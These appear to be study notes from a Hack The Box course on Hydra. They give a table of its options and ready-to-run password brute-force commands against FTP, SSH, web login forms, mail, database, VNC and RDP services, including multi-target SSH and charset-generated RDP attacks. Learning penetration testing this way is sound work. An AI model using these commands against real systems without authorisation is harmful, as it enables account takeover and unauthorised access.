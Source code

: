 
## Basic Usage

```bash
AhmaDb0x@htb[/htb]$ hydra [login_options] [password_options] [attack_options] [service_options]
```

|Parameter|Explanation|Usage Example|
|---|---|---|
|`-l LOGIN` or `-L FILE`|Login options: Specify either a single username (`-l`) or a file containing a list of usernames (`-L`).|`hydra -l admin ...` or `hydra -L usernames.txt ...`|
|`-p PASS` or `-P FILE`|Password options: Provide either a single password (`-p`) or a file containing a list of passwords (`-P`).|`hydra -p password123 ...` or `hydra -P passwords.txt ...`|
|`-t TASKS`|Tasks: Define the number of parallel tasks (threads) to run, potentially speeding up the attack.|`hydra -t 4 ...`|
|`-f`|Fast mode: Stop the attack after the first successful login is found.|`hydra -f ...`|
|`-s PORT`|Port: Specify a non-default port for the target service.|`hydra -s 2222 ...`|
|`-v` or `-V`|Verbose output: Display detailed information about the attack's progress, including attempts and results.|`hydra -v ...` or `hydra -V ...` (for even more verbosity)|
|`service://server`|Target: Specify the service (e.g., `ssh`, `http`, `ftp`) and the target server's address or hostname.|`hydra ssh://192.168.1.100`|
|`/OPT`|Service-specific options: Provide any additional options required by the target service.|`hydra http-get://example.com/login.php -m "POST:user=^USER^&pass=^PASS^"` (for HTTP form-based authentication)|

### Hydra Services
https://academy.hackthebox.com/module/57/section/504

| Example Command                                                                                                |
| -------------------------------------------------------------------------------------------------------------- |
| `hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`                                             |
| `hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`                                              |
| `hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |
| `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`                                          |
| `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`                               |
| `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`                               |
| `hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100`                                            |
| `hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100`                                              |
| `hydra -P /path/to/password_list.txt vnc://192.168.1.100`                                                      |
| `hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`                                             |

### Brute-Forcing HTTP Authentication

```bash
AhmaDb0x@htb[/htb]$ hydra -L usernames.txt -P passwords.txt www.example.com http-get
```

### Targeting Multiple SSH Servers
```bash
AhmaDb0x@htb[/htb]$ hydra -l root -p toor -M targets.txt ssh
```

### Testing FTP Credentials on a Non-Standard Port
```bash
AhmaDb0x@htb[/htb]$ hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
```



### Brute-Forcing a Web Login Form

```bash
AhmaDb0x@htb[/htb]$ hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

- Use the username "admin".
- Use the list of passwords from the `passwords.txt` file.
- Target the login form at `/login` on `www.example.com`.
- Employ the `http-post-form` module with the specified form parameters.
- Look for a successful login indicated by the HTTP status code `302`.

### Advanced RDP Brute-Forcing

password consists of 6 to 8 characters, including lowercase letters, uppercase letters, and numbers.

```bash
AhmaDb0x@htb[/htb]$ hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

